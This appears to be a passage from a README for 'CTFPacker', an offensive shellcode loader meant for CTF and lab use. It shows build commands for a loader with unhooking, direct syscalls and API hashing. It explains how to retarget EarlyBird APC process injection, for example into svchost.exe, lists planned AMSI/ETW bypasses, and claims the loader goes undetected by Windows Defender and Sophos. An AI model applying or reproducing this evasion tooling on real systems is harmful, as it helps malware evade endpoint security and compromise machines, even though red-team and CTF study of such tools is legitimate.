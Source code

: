 ```powershell
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c inject.c -o inject.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c main.c -o main.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c unhook.c -o unhook.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c whispers.c -o whispers.o
nasm -f win64   whispers-asm.x64.asm -o whispers-asm.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -o ctfloader.exe api_hashing.o inject.o main.o unhook.o whispers.o whispers-asm.o -Wl,--disable-auto-import -s -lwinhttp -lntdll
[+] Loader compiled !
[+] DONE !

C:\Code\CTFPacker>ls
core  ctfloader.exe  custom_certs  main.py  requirements.txt  shellcode.bin  templates
```

### Target Process Injection

I won't go into detail about how the EarlyBird APC Injection technique works, but one thing you should know is that it needs to *create* a process. The current target process is `RuntimeBroker.exe`. IF (I encountered that in some HTB Pro Labs) `RuntimeBroker.exe` is NOT present on the system (for whatever reasons), you should change the source code and target another process.

To do that, you can navigate into the `main.c` file (staged or stageless) and modify this value at the top

```c
#define TARGET_PROCESS "RuntimeBroker.exe"
```

You should choose a binary that is present in the `System32` directory. For example, this should also work:

```c
#define TARGET_PROCESS "svchost.exe"
```

I'll probably add some kind of argument in the future for you to choose between a few target processes.

>[!NOTE]
> Be aware that some processes will be easier to detect than others. In my experience, doing the APC Injection into `svchost` for example is more likely to be catched.  

## To-Do

- [ ] Maybe adding a setup.py file to install via pip / pipx
- [ ] Other templates with different injection techniques
- [ ] Adding AMSI / ETW bypass (depends on what injection technique I am going to put here)

## Detections

- Undetected on the latest Windows 11 Defender (2025-03-18, Version 1.425.89.0)
- Undetected on Windows 10 Defender (2025-03-18, Version 1.425.90.0)
- Undetected on the latest Sophos Home Premium (Version 2023.2.2.2)
   ![image](https://github.com/user-attachments/assets/54a5539c-8eb8-490e-a189-33fbf7be9867)
